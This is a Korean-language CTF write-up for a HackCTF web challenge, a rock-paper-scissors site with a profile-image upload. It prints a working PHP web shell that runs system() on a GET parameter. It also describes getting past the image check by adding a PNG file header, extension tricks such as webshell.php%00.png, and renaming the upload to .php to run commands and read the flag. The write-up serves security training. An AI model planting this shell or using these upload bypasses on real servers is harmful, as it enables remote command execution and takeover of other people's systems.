







# HackCTF - WEB - 가위바위보

일단 문제 사이트에 접속을 합니다.



접속을 하면 간단한 가위바위보 게임을 즐길 수 있는 사이트가 하나 나오는데 여기서 오른쪽 위의 계정 설정으로 들어갑니다.!



그러면 계정에 대해 프로필 이미지와 이름을 변경할 수 있는 것을 보이는데 파일 업로드가 가능 하다는 점에서 파일 업로드 취약점을 이용 해야 한다는 것을 알 수 있습니다. 일단 한번 간단한 웹쉘 코드를 짜고 업로드를 해봅니다.

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

위와 같이 웹쉘을 제작 해서 파일을 업로드 해봅니다.!

webshell.php , webshell.png.php, webshell.php%00.png 등등 확장자를 변경하여 시도를 하였는데 아래와 같이 이미지 파일이 아니라는 경고를 내보내는 모습을 볼 수 있습니다.



이번에는 파일 헤더에 PNG을 의미하는 헤더를 집어 넣음으로 한번 우회를 해봅니다.



이제 수정한 파일을 업로드 해보면 정상적으로 업로드가 되는 모습을 알 수 있습니다.



이때 파일을 열어보면 아래와 같이 이름으로 열리는 모습을 볼 수 있는데 이름을 .php의 확장자 이름으로 변경하여 다시 업로드 해봅니다.





이제 여기서 이미지의 주소를 새 창으로 띄어 보면 정상적으로 웹쉘이 실행된 모습을 볼 수 있는데 flag 파일을 찾아 출력 합니다.


